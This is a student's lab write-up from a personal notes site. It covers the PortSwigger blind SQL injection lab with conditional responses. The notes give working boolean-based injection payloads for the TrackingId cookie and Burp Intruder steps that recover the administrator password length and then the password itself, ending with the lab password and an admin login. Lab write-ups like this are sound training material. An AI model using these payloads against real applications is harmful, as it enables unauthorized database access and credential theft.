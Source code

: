 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/05-mar-wednesday/lab/"}
---
```


# **Blind SQL injection with conditional responses**

[Access the PortSwigger lab](https://portswigger.net/web-security/sqlinjection/blind/lab-conditional-responses)

*Note :*
- analyse the app & ask the developer which part of the request is executing sql query at the backend

### Exploiting Blind SQL Injection via Cookies

1️⃣ Vulnerability: The app uses a tracking cookie in an SQL query but does not show query results or errors.

2️⃣ Indicator: If the query returns rows, a "Welcome back" message appears—this confirms the injection.

3️⃣ Confirm SQL Injection: 
-  Set TrackingID=xyz' AND '1'='1 → If "Welcome back" appears, it's vulnerable.
- Set TrackingID=xyz' AND '1'='2 → If message disappears, injection is confirmed.

- On true condition -images will be loaded/response contains specific mssg/response contains one specific msg
- on false condition - images will disappear/response wont contain specific mssg/response contains another specific msg

#### Step 1 : 1st method : boolean method → 1' AND 10=10 `#`
![attachments/Pasted image 20250319192531.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192531.png)

#### Step 2 : intercept on → view details →
![attachments/Pasted image 20250319192617.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192617.png)

#### Step 3 : send to repeater
![attachments/Pasted image 20250319192629.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192629.png)

#### Step 4 : without tampering the tracking id we get the welcome back mssg
![attachments/Pasted image 20250319192702.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192702.png)

#### Step 5 : now when we tamper the tracking id -->we aint getting the welcome back mssg
![attachments/Pasted image 20250319192733.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192733.png)

#### Step 6 : now giving a true condition in tampering id → you can seee the welcome back mssg
![attachments/Pasted image 20250319192809.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192809.png)

#### Step 7 : now give a false condition → you cant see the welcome back mssg
![attachments/Pasted image 20250319192840.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192840.png)

#### Step 8 : TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
![attachments/Pasted image 20250319192916.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192916.png)

- explanation:
![attachments/Pasted image 20250319192938.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319192938.png)

#### Step 9 : ' AND (SELECT 'a' FROM users WHERE username='administrator')='a
![attachments/Pasted image 20250319193014.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193014.png)

- explanation:
![attachments/Pasted image 20250319193034.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193034.png)

#### Step 10 : ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
![attachments/Pasted image 20250319193112.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193112.png)

![attachments/Pasted image 20250319193126.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193126.png)

#### Step 11 :' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
![attachments/Pasted image 20250319193207.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193207.png)

![attachments/Pasted image 20250319193216.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193216.png)

#### Step 12 : so after writting ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
- we can see that we cant see welcome back so the password has 20 characters
![attachments/Pasted image 20250319193327.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193327.png)

- how do we know its 20??
- now from repeater → send to intruder

![attachments/Pasted image 20250319193357.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193357.png)

- now in intruder edit the tracking id :
' AND (SELECT 'a' FROM users WHERE username='administrator' AND
LENGTH(password)>1)='a
- select the payload 1 in order to know how many characters does the password has.
![attachments/Pasted image 20250319193442.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193442.png)

- select the payloads type as numbers. and do the rest from the below screenshot.
![attachments/Pasted image 20250319193543.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193543.png)

- go to settings → grep match → Welcome back (as we are checking for welcome back ) → add it
![attachments/Pasted image 20250319193617.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193617.png)

- now from 0 -19 , we are getting 1 in the weclome back column , after that we aint gettting 1 , so hereby we know that from 0-19 there are 20 characters so the password is of 20 characters.
![attachments/Pasted image 20250319193653.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193653.png)

- Now again go to intruder and edit the following
trackign id :
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a 
- set the attack type as : Cluster bomb
![attachments/Pasted image 20250319193733.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193733.png)

- for payload 1 do the following settings
![attachments/Pasted image 20250319193753.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193753.png)

- for payload 2 do the the following settings
![attachments/Pasted image 20250319193813.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193813.png)

- go to grep match and settings add welcome back.
![attachments/Pasted image 20250319193841.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193841.png)

- now your password is these : cqasso52s97tr1nmimol
![attachments/Pasted image 20250319193911.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193911.png)

- now go to login page : administrator 
- password :cqasso52s97tr1nmimol

![attachments/Pasted image 20250319193958.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319193958.png)

- so you cracked the password and logged inside the admin page !! 🔪🥷🔪

#                                    ---****---

